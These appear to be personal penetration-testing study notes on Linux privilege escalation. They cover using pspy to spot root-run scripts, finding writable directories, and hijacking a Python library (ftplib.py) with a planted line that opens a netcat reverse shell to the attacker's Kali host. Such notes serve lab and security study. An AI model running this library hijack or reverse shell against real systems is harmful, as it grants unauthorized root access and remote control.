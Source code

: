 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

32 or 64?
```bash - target
uname -a
```

32 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
```

64 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

transfer to Target

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - target
chmod +x pspy64
```

```bash - target
./pspy64
```

Look at the output, look for any UID=0, as this is the root user.  Look for any commands that are calling a file / script that we may have write privileges to.

![[Pasted image 20211229224921.png | 1000]]

```bash - target
find / -writable -type d 2>/dev/null
```

![[Pasted image 20221110104834.png]]

```bash - target
cat /opt/ftpclient/ftpclient.py
```

```bash - kali
cd /usr/lib/python2.7
```

Check if we have read / write privs:
```bash - kali
ls -lah ftplib.py
```

Open the file, and put in a reverse shell command:
```bash - kali
nano ftplib.py
```

![[rlwrap]]

```python - kali
os.system("nc -e /bin/bash $KALI 443")
```

![[Pasted image 20211229225151.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
